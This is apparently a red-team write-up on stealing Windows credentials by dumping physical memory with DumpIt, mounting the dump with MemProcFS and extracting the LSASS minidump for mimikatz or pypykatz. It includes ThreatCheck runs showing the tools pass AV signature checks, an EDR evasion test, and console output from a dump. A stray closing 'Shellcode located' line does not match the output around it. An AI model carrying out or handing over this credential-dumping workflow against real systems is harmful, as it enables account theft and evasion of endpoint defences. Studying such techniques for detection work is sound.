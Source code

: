 ----

# Using full memory dumps

## Extracting LSASS credentials from raw memory dumps

DumpIt is a closed source tool made primarily for forensic analysis, that uses a driver to dump all the physical memory into a file. Because the dumps size depends on the amount of memory available and can be quite large, retrieving and exfiltrating one from a remote system is usually slow and not feasible.

To ease this process, MemProcFS allows mounting raw memory dumps, then in the mount folder a minidump folder contains the LSASS minidump that is compatible with mimikatz or pypykatz.

Requirement:  Around 17gb free disk space for the raw memory dump.

### Tool Setup

Begin by downloading [DumpIt](https://github.com/h4sh5/DumpIt-mirror) and [MemProcFS](https://github.com/ufrisk/MemProcFS). Next Copy DumpIt onto the `testmachine`.

Analysis using ThreatCheck:

```
PS D:\> .\ThreatCheck.exe -f D:\Tools\DumpIt.exe
[+] No threat found!

PS D:\> .\ThreatCheck.exe -f D:\Tools\winpmem.exe
[+] No threat found!

PS D:\> .\ThreatCheck.exe -f D:\Tools\MemProcFS\MemProcFS.exe
[+] No threat found!
```

### Local Binary execution against EDR (MDE) - DumpIt, WinPmem and MemProcFS analysis

Copy DumpIt and MemprocFS onto the `testmachine`.

Enumerate the LSASS PID using `Task Manager` as before and next perform a raw physical memory dump using DumpIt as follows:

```
C:\Tools> .\DumpIt.exe 856

  DumpIt 3.0.20171228.1
  Copyright (C) 2007 - 2017, Matthieu Suiche <http://www.msuiche.net>
  Copyright (C) 2012 - 2014, MoonSols Limited <http://www.moonsols.com>
  Copyright (C) 2015 - 2017, Comae Technologies FZE <http://www.comae.io>

    Destination path:           \??\C:\Tools\TestMachine4-20230825-103250.dmp

    Computer name:              TestMachine4


    --> Proceed with the acquisition ? [y/n] y

    [+] Information:
    Dump Type:                   Microsoft Crash Dump


    [+] Machine Information:
    Windows version:             10.0.22000
    MachineId:                   AA14A121-1AC4-4BA5-ABE3-A92C29E5CC8C
    TimeStamp:                   133374331773010432
    Cr3:                         0x6d5002
```

[+]: Shellcode located at c7160